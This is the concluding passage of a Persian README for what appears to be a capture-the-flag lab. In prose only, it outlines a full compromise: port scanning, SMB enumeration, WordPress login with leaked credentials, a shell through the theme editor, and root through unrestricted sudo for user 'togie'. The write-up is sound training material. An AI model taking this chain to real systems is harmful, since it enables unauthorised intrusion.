**شناسایی شبکه → اسکن پورت‌ها با Nmap → بررسی SMB → پیدا کردن اطلاعات ورود → ورود به WordPress → پیدا کردن ویرایشگر پوسته → ساخت Payload → دریافت Shell → بررسی کاربران سیستم → پیدا کردن رمز عبور `togie` → بررسی Sudo → گرفتن دسترسی Root → خواندن `proof.txt`**

## نتیجه‌گیری

توی این چالش دیدم که چطور چند ضعف امنیتی ساده می‌تونن در کنار هم باعث دسترسی کامل به یه سیستم بشن.

اول ماشین هدف رو توی شبکه پیدا کردم و سرویس‌هاش رو بررسی کردم. بعد از طریق SMB به اطلاعاتی رسیدم که برای ورود به WordPress به کارم اومدن. با بررسی پنل مدیریت، امکان ویرایش فایل‌های پوسته رو پیدا کردم و از این مسیر تونستم دسترسی اولیه به سیستم رو به دست بیارم.

بعدش کاربران سیستم رو بررسی کردم، اطلاعات ورود کاربر `togie` رو از فایل اشتراکی پیدا کردم و متوجه شدم این حساب مجوز اجرای دستورها با `sudo` رو به‌صورت نامحدود داره.

در نهایت، با استفاده از همین مجوزها به دسترسی root رسیدم و فایل `/root/proof.txt` رو خوندم.

این چالش تجربه خوبی برای تمرین شناسایی سرویس‌ها، بررسی دسترسی‌های اشتباه، کار با SMB و WordPress و درک مسیر ارتقای سطح دسترسی در لینوکس بود.

---

ممنون از توحه شما

## توضیح درباره استفاده از هوش مصنوعی

این README با کمک هوش مصنوعی نوشته شده است. تمام دستورها، آزمایش‌ها و کارهای فنیِ مستندشده در این گزارش توسط خود نویسنده انجام شده‌اند.
